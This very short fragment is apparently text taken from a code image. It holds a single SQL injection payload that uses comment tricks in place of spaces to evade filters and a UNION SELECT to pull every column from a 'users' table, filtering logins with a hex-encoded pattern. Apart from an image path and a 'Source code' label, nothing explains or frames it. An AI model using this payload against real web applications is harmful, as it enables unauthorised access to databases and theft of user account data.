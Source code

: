 <pre>
9999/**/union/**/select/**/*/**/from/**/users/**/where/**/login/**/like/**/0x2567656e746f6f25
</pre>